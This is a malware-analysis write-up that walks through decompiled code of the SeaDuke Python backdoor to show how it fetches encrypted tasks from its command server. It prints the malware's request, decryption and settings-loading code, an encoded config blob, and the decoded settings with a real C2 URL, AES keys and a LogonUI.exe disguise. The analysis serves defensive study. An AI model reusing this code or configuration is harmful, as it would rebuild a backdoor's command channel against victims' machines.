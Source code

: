 # how does seaduke fetch instructions from the mothership?
`main()` asks `networkHandleKlass` to get tasks:
```python
def main():
    ...
    networkTasks=networkHandleKlass.get_tasks()


class NetworkHandlerKlass(object):
    def get_tasks(self):
        ...
```
this instantiates a `CryptoKlass` object called `pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTziQDy`.
```python
class CryptoKlass(object):

    def __init__(self,v_crypto_aes_key,v_crypto_aes_iv,**pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ):
        if pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ.get('b64',True):
            v_crypto_aes_key=base64_b64decode(v_crypto_aes_key)
            v_crypto_aes_iv=base64_b64decode(v_crypto_aes_iv)
        self.__aes_key=v_crypto_aes_key
        self.__aes_iv=v_crypto_aes_iv
```
it then does three inner loops:
```python
class NetworkHandlerKlass(object):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1367

    def get_tasks(self):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1476
        ...
        for _ in range(botKlass.total_hosts):
            for _ in range(botKlass.total_transports):
                for _ in range(3):
                    networkTasks=[]
                    try:
                        response_data = self.__send_request(id=botKlass.bot_id)
                        decoded_response = self.decode_data(response_data)  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQizDy renamed to decoded_response, decoced response is a dict
                        if not 'tasks' in decoded_response:
                            return []
                        decoded_tasks = decoded_response['tasks']
                        for networkTask in decoded_tasks:
                            if 'task_data' in networkTask and networkTask['task_data']:
                                networkTask['task_data'] = my_cryptoklass.decode_data(networkTask['task_data'])
                                networkTasks.append(networkTask)
                        botKlass.is_first_request=False
                        return networkTasks  # a list of dict
```
## request information from remote server
this is a critical part since it is where botKlass requests and receives instructions with `NetworkHandlerKlass.__send_request` method:
```python
response_data=self.__send_request(id=botKlass.bot_id)

class BotKlass(object):

    def __init__(self):
        self.__settings=self.__load_settings()
        ...
        self.__bot_id=self.__settings['bot_id']


class NetworkHandlerKlass(object):
    ...
    def __send_request(self, **x):
        url = x.pop('url', self.url)  #  Syntax : dict.pop(key, def) Parameters : key : The key whose key-value pair has to be returned and removed. def : The default value to return if specified key is not present. 
        encoded_cookie_data = None
        res = None
        
        if x:
            encoded_cookie_data=self.__encode_cookie(x)
        
        if botKlass.current_transport=='wininet':  # windows interface
            pass
            p = HttpKlass(url, self.user_agent)
            res = p.send_request(encoded_cookie_data, self.referer)
        else:
            pass
            
            header = urllib2_build_opener()
            header.addheaders=[('User-agent',self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            
            if self.referer:
                pass

            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res, e)
        return res
```
### what is the `url`?
since `NetworkHandlerKlass` wasnt provided with an url, we rely on its url.
```python
class NetworkHandlerKlass(object):

    def __init__(self,**foo):
        self.__url = foo.get('url', None)

    @property
    def url(self):
        return self.__url if self.__url else botKlass.current_host
```
since `self.__url=None`, we look at `botKlass.current_host`.
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
`botKlass.current_host` requires `self.__settings` to execute `self.__load_settings()`:
```python
class BotKlass(object):
    ...
    def __load_settings(self):
        settings_file_path = self.settings_file_path
        d = {}  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTziQeD replaced to d
        if not os_path.exists(settings_file_path):
            d = get_default_settings()
        else:
            try:
                with open(settings_file_path,'rb')as settings_file:
                    bot_settings = get_default_settings()
                    v_crypto_aes_key = bot_settings['keys']['aes']
                    v_crypto_aes_iv = bot_settings['keys']['aes_iv']
                    c = CryptoKlass(v_crypto_aes_key,v_crypto_aes_iv)
                    k = c.decrypt(settings_file.read())
                    d = json_loads(k)
            except Exception as e:
                pass
                os_remove(settings_file_path)
                d = get_default_settings()
        return d
```
this calls the following for `settings_file_path`, which creates a file path based on the bot's `key_id` (the key_id is defined in `bot_settings`):
```python
class BotKlass(object):
    ...
    @property
    def settings_file_path(self):
        key_id = get_default_settings()['key_id']  # hardcoded as P4BNZR0
        if v_sys_platform.startswith('win'):
            w ='tmp' + key_id.lower()
        else:
            w ='.'+key_id
        y = tempfile_gettempdir()
        if v_sys_platform.startswith('win'):
            z=ctypes.windll.shell32.SHGetFolderPathW
            z.argtypes=[ctypes.wintypes.HWND,ctypes.c_int,ctypes.wintypes.HANDLE,ctypes.wintypes.DWORD,ctypes.wintypes.LPCWSTR]
            a=ctypes.wintypes.create_unicode_buffer(ctypes.wintypes.MAX_PATH)
            z(0,0x1C,0,0,a)
            y=a.value
        return os_path.join(y, w)
```
which calls `get_default_settings()`, which returns a [dict called `bot_settings`](https://github.com/mynameisvinn/Seaduke/blob/master/bot_settings.md):
```python
bot_settings=json_loads(zlib_decompress(base64_b64decode('eJx1kF1PwjAUhv/K0iuNpiUMg8Fw4QSTAfFrQQ3GNN12Nua2dpyWj0n877ZAvPOqzTnP+77nnD3JCtSG41ryFCrRkoHXufRICa223z0R4F4yDb/i7wVb7NLx1XTUfVf6fRXG4xTvdq1fr0ZRNHub9IP70ldDYvVWxouNUyYVzKdhcVHfvkbTWbf/2Juw+fNwSH4ctjaqUiLlGowpZH7MhB1wKWpw8pnKlZyH1NYOvk3zX8uODwa4yAygbWei0uAylsrupxMsGuPsP8jSmGbAWK1kYRRS3UqaSIZa02bZkE8rQcgADy4HWFt6u93STCQQK1XSRNXMRa41IBc5SOPQqDAQCGQ+9em1dxZYshZYehHgBvDGO+Vqi8UCqcKcnZPjrXmROoenXvCweOm4IkgRV3ab04H+FvoFdgWNdw==')))

def get_default_settings():
    return bot_settings
```
if we look at the dict `bot_settings` we see the following:
```python
```python
{'first_run_delay': 0,
'keys': {'aes': 'KIjbzZ/ZxdE5KD2XosXqIbEdrCxy3mqDSSLWJ7BFk3o=', 'aes_iv': 'cleUKIi+mAVSKL27O4J/UQ=='},
'autoload_settings': {'exe_name': 'LogonUI.exe', 'app_name': 'LogonUI.exe', 'delete_after': False},
'host_scripts': ['http://monitor.syn.cn/rss.php'],
'referer': 'https://www.facebook.com/',
'user_agent': 'SiteBar/3.3.8 (Bookmark Server; http://sitebar.org/)',
'key_id': 'P4BNZR0',
'enable_autoload': False}
```
since we were interested in:
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
we now know `url` points to http://monitor.syn.cn/rss.php.

## we have the url, now what?
to refresh, we were evaluating `self.__send_request()`:
```python
class NetworkHandlerKlass(object):
    def get_tasks(self):
        ...
		response_data=self.__send_request(id=botKlass.bot_id)
        ...

    def __send_request(self, **x):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1446
        ...
        else:
            pass
            header = urllib2_build_opener()
            header.addheaders=[('User-agent',self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            
            if self.referer:
                pass

            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res,e)
        return res
```
when we ask `NetworkHandlerKlass` to `__send_request`, it will receive some packet from http://monitor.syn.cn/rss.php and decrypt it with `CryptoKlass`.
